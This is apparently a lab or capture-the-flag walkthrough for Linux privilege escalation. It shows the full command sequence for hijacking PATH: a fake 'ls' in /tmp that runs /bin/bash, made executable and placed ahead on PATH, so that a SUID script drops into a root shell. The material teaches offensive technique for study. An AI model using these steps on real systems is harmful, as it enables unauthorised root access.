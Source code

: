 - [x] Run the file “script”. What command do we think that it’s executing?
	![](https://miro.medium.com/v2/resize:fit:936/1*O8W78-6IB6g0k8Ks4byhAQ.png)
It looks like the output of the ls command.

- [x] Now we know what command to imitate, let’s change directory to “tmp”.
	![](https://miro.medium.com/v2/resize:fit:315/1*6lj3bQFwZwaUgeKJzmEHQw.png)

- [x] Now we’re inside tmp, let’s create an imitation executable. The format for what we want to do is:
	echo “[whatever command we want to run]” > [name of the executable we’re imitating]

- What would the command look like to open a bash shell, writing to a file with the name of the executable we’re imitating?
	`echo “/bin/bash” >> ls`

- [x] Great! Now we’ve made our imitation, we need to make it an executable. What command do we execute to do this?
	`chmod +x ls`

- [x] Now, we need to change the PATH variable, so that it points to the directory where we have our imitation “ls” stored! We do this using the command “export PATH=/tmp:$PATH”
	- Note, this will cause you to open a bash prompt every time you use “ls”. If you need to use “ls” before you finish the exploit, use` “/bin/ls”` where the real “ls” executable is.
	- Once you’ve finished the exploit, you can exit out of root and use#` “export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH” `to reset the PATH variable back to default, letting you use “ls” again!
		![](https://miro.medium.com/v2/resize:fit:879/1*AHhIU83Z9RKbeLriWCdMUg.png)

- [x] Now, change directory back to home directory /the script file is here/.
	![](https://miro.medium.com/v2/resize:fit:299/1*9-5CBN4q2g4R_GzCXsmLyg.png)

- [x] Now, run the “script” file again, you should be sent into a root bash prompt!
	![](https://miro.medium.com/v2/resize:fit:936/1*Jg5I3UlUxDkL_fW0t_C7-A.png)

